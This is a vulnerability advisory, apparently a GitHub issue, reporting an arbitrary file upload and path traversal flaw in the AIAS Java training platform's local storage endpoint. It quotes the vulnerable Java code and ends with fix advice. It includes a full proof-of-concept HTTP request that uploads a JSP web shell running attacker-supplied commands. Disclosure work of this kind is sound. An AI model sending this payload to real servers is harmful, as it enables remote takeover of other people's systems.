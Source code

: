 # Vulnerability Description

The open source Java AI one-stop solution project "[mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)" has an arbitrary file upload vulnerability, which allows attackers to upload arbitrary malicious files to any path on the server, resulting in arbitrary code execution.

- Vulnerability Discloser: [Tr0e](https://github.com/Tr0e)

- Vendors:  [http://aias.top/](http://aias.top/)

- Source code address：[https://github.com/mymagicpower/AIAS](https://github.com/mymagicpower/AIAS)

- https://github.com/mymagicpower/AIAS/issues/46

Note: **This vulnerability was discovered automatically by my AI code audit tool**.

# Vulnerability Analysis

The vulnerability code entry point is located at：

[training_platform/train-platform/src/main/java/top/aias/training/controller/LocalStorageController.java](https://github.com/mymagicpower/AIAS/blob/main/2_training_platform/train-platform/src/main/java/top/aias/training/controller/LocalStorageController.java)

The complete relevant code information of the vulnerability exploit chain is as follows:

```java
    //src/main/java/top/aias/training/controller/LocalStorageController.java
    @PostMapping("/file")
    public ResultBean create(@RequestParam("file") MultipartFile multipartFile) {
        FileUtil.checkSize(properties.getMaxSize(), multipartFile.getSize());
        String suffix = FileUtil.getExtensionName(multipartFile.getOriginalFilename());
        String type = FileUtil.getFileType(suffix);
        File file = FileUtil.upload(multipartFile, properties.getPath().getPath() + type + File.separator);
        if (ObjectUtil.isNull(file)) {
            throw new BadRequestException("上传失败");
        }
        try {
            LocalStorage localStorage = new LocalStorage(
                    file.getName(),
                    FileUtil.getFileNameNoEx(multipartFile.getOriginalFilename()),
                    suffix,
                    file.getPath(),
                    type,
                    FileUtil.getSize(multipartFile.getSize())
            );

            localStorageService.addStorageFile(localStorage);
        } catch (Exception e) {
            FileUtil.del(file);
            throw e;
        }
        return ResultBean.success();
    }

    //src/main/java/top/aias/training/utils/FileUtil.java
    public static String getExtensionName(String filename) {
        if ((filename != null) && (filename.length() > 0)) {
            int dot = filename.lastIndexOf('.');
            if ((dot > -1) && (dot < (filename.length() - 1))) {
                return filename.substring(dot + 1);
            }
        }
        return filename;
    }

    //src/main/java/top/aias/training/utils/FileUtil.java
    public static File upload(MultipartFile file, String filePath) {
        Date date = new Date();
        SimpleDateFormat format = new SimpleDateFormat("yyyyMMddhhmmssS");
        String name = getFileNameNoEx(file.getOriginalFilename());
        String suffix = getExtensionName(file.getOriginalFilename());
        String nowStr = "-" + format.format(date);
        try {
            String fileName = name + nowStr + "." + suffix;
            String path = filePath + fileName;
            // getCanonicalFile 可解析正确各种路径
            File dest = new File(path).getCanonicalFile();
            // 检测是否存在目录
            if (!dest.getParentFile().exists()) {
                if (!dest.getParentFile().mkdirs()) {
                    System.out.println("was not successful.");
                }
            }
            // 文件写入
            file.transferTo(dest);
            return dest;
        } catch (Exception e) {
            log.error(e.getMessage(), e);
        }
        return null;
    }
```

As you can see, the external API entry "/file" receives the MultipartFile uploaded by the user and directly passes it to the "FileUtil.upload" function for processing. At the same time, without any security check, the user-controlled file name and suffix are directly referenced as the final file path and name saved on the server, which will form a typical file upload vulnerability.

Attackers can use this vulnerability to upload malicious Trojan files to the victim's server, thereby controlling its server.

# Vulnerability Verification

Please first build the project local environment according to the steps provided by the project source code author in the Readme file.

The vulnerability proof of concept (POC) is as follows:

```js
POST /api/localStorage/file HTTP/1.1
Host: 127.0.0.1:8089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxk
Content-Length: 628

------WebKitFormBoundary7MA4YWxk
Content-Disposition: form-data; name="file"; filename="../../shell.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
------WebKitFormBoundary7MA4YWxk--
```

The relevant verification screenshots are shown below:

![image](https://github.com/user-attachments/assets/2eeeb08c-9221-4667-b5a1-da918c0608e0)
![image](https://github.com/user-attachments/assets/206f9213-e0bc-4652-9ede-ce468b9bc2f1)
![image](https://github.com/user-attachments/assets/f7390d2b-6cfe-48ea-b4eb-6c6264c42042)
![image](https://github.com/user-attachments/assets/7d34e421-aa49-4343-91b1-7712d13b7159)



# Security Suggestions

Please limit the uploaded file types and check the file suffixes to prevent attackers from uploading malicious Trojan programs.

At the same time, the uploaded file path needs to be strictly restricted, and it is forbidden to use the file name information transmitted by the front end to splice the final file storage path
